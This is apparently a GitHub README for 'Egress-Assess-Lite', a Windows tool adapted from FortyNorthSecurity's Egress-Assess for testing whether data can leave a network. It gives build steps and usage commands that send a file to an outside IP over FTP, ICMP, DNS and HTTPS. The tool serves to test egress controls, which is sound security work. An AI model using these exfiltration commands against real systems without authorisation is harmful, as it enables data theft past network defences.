 # Egress-Assess-Lite

Adapted from FortyNorthSecurity's [Egress-Assess](https://github.com/FortyNorthSecurity/Egress-Assess)

Specially made to be assess exfiltration in Windows systems.

Supported clients are:
* FTP
* ICMP
* HTTPS
* DNS

## Deployment

```powershell
pip install PyInstaller==3.6   # For python 2
pyinstaller --onefile Egress-Assess-Lite.py
```

## Usage

```powershell
./Egress-Assess-Lite.py --client ftp --username test --password ftp --ip 10.1.1.1 --file resume.docx
./Egress-Assess-Lite.py --client icmp --ip 10.1.1.1 --file resume.docx
./Egress-Assess-Lite.py --client dns --ip 10.1.1.1 --file resume.docx
./Egress-Assess-Lite.py --client https --ip 10.1.1.1 --file resume.docx
```